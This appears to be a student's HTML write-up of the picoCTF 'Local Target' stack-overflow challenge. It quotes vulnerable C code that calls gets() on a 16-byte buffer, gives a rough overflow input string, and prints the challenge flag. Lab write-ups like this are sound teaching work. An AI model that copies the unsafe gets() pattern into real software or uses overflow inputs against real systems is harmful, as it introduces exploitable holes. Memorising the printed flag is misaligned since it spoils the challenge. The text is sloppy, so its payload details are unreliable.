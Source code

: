 
<!DOCTYPE html>
<html>

<body>
    <h1>Local Target- picogym Exclusive</h1>

    <h2>Challenge Description</h2>
    <p> 
AUTHOR: OVERTHEWIRE.ORG / LT 'SYREAL' JONES

Description
Smash the stack
Additional details will be available after launching your challenge instance.
instanc:Description
Smash the stack
Can you overflow the buffer and modify the other local variable? The program is available <a href="https://artifacts.picoctf.net/c/518/local-target">here</a>. You can view source <a href="https://artifacts.picoctf.net/c/518/local-target">here</a>. And connect with it using:
nc saturn.picoctf.net 51696(file and address can be  deffirent in different instances)

</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
we download files from picoctf
<p id="code1">
$wget https://artifacts.picoctf.net/c/518/local-target
$wget  https://artifacts.picoctf.net/c/518/local-target.c
</p>
open them and see code of source and see this intersting lines
<pre>

int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
   
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }
</pre>
it means buferoverflow and mean in this code if we enter <pre>12345678901234567890123AAAAAAAAAAAAAAAAAAAA(A 's count is different in on base of size of input</pre>
enter it and get code
</ol>
<br>
    <h2>Flag</h2>
    <p class="flag">picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
</p>

 
    <h2>Conclusion</h2>
    <p>this is a    easy chanllenge for work on reverse engineering on asm and $rbp and python and get dump file and watch rbp and memories value with gdb </p>
</body>
</html>











